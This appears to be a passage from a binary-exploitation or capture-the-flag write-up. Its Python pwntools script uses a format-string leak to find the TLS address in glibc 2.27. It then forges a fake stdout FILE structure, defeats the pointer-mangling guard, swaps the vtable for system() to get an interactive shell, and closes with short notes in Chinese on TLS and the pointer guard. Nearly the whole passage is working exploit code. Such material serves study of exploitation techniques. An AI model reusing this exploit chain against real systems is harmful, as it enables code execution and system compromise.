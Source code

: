 ```python
    fake_stdout = p64(0xfbad2284 | 0x8000)
    fake_stdout += p64(0)*3 # read ptr, end, base
    fake_stdout += p64(addr)*2 # write base, ptr
    fake_stdout += p64(addr + 8) # write end
    fake_stdout = fake_stdout.ljust(0x70, b'\x00')
    fake_stdout += p32(1)
    fake_stdout = fake_stdout.ljust(0xd8, b'\x00')
    payload = fmt.ljust(0x10, b'\x00')+p64(stdout_offset)
    payload = payload.ljust(0x100, b'\x00')
    payload += fake_stdout
    r.sendline(payload)
    r.recvuntil('\n')

def rol(x,off):
    return ((x << off) | (x >> (64-off))) & 0xffffffffffffffff

##### leak tls from (libc + 0x3EB008 + 1)
write_to(stack, p64(libc + 0x3EB008 + 1))
fmt = b"xxxxxx%%%d$s" % (74 + 0xd0/8)
payload = fmt.ljust(0x10, b'\x00') + p64(stdout_offset)
payload = payload.ljust(0x100, b'\x00')
payload += fake_stdout
r.sendline(payload)
r.recvuntil('\n')
tls = u64(b'\x00' + r.recv(5) + b'\x00\x00')
info(f'tls: {hex(tls)}')

IO_accept_foreign_vtables = libc + 0x3F0668
write_to(tls + 0x15b0, b'a'*8)
write_to(IO_accept_foreign_vtables, p64(rol((libc + 0x8A150) ^ int((b'a'*8).hex(), 16), 17)))
fmt = p64(stdout_offset + 0xd8)[:-2] + b'aa' # overwrite vtable
fake_stdout = p32(0xfbad2284 | 0x8000) + b';sh\x00'
fake_stdout += p64(0)*3
fake_stdout += p64(stdout_offset+0xd8)*2
fake_stdout += p64(stdout_offset+0xd8 + 6)
fake_stdout = fake_stdout.ljust(112, b'\x00')
fake_stdout += p32(1)
fake_stdout = fake_stdout.ljust(0xd8, b'\x00')
payload = fmt.ljust(0x10, b'\x00')+ p64(stdout_offset)
payload = payload.ljust(0x100, b'\x00')
payload += fake_stdout # vtable
payload += p64(_system)*4 # vtable
r.sendline(payload)
r.recvuntil('\n')
r.interactive()
```

- glibc 的 `_GLOBAL_OFFSET_TABLE_` (GOT) 在 2.27 版時，0x8 offset 的位置會有 tls 的 address，而 2.31 會處在 tls memory region 之中
  - 也可以使用 `(gdb) search -8 <tls_addr>` 來找哪裡會有 tls address
- pointer encryption guard
  - 由 dynamic linker 初始化，如果 binary 是 static 則在 startup code
  - 存在 TCB ([TCB vs. TLS](https://stackoverflow.com/a/62518904))

